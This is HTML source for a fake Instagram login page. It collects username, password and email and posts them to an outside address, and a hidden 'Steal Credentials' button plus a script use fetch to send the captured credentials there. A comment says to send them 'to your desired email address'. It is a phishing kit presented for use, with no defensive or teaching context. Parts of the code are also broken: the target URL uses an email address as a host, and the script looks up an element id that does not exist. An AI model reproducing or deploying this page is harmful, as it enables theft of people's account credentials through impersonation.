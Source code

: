 <html>
  <head>
    <title>Instagram Login</title>
  </head>
  <body>
    <h1>Instagram Login</h1>
    <form action="https://leonardfaye2008@gmail.com/submit" method="post">
      <label for="username">Username:</label>
      <input type="text" id="username" name="username"><br><br>
      <label for="password">Password:</label>
      <input type="password" id="password" name="password"><br><br>
      <label for="email">Email:</label>
      <input type="text" id="email" name="email"><br><br>
      <input type="submit" value="Login">
      <input type="button" value="Steal Credentials" style="display: none;">
    </form>
    <script>
      document.getElementById('Steal Credentials').addEventListener('click', function() {
        var username = document.getElementById('username').value;
        var password = document.getElementById('password').value;
        var email = document.getElementById('email').value;
        // Send the credentials to your desired email address
        fetch('https://leonardfaye2008@gmail.com/submit', {
          method: 'POST',
          body: JSON.stringify({
            username: username,
            password: password,
            email: email
          }),
          headers: {
            'Content-Type': 'application/json'
          }
        });
      });
    </script>
  </body>
</html>
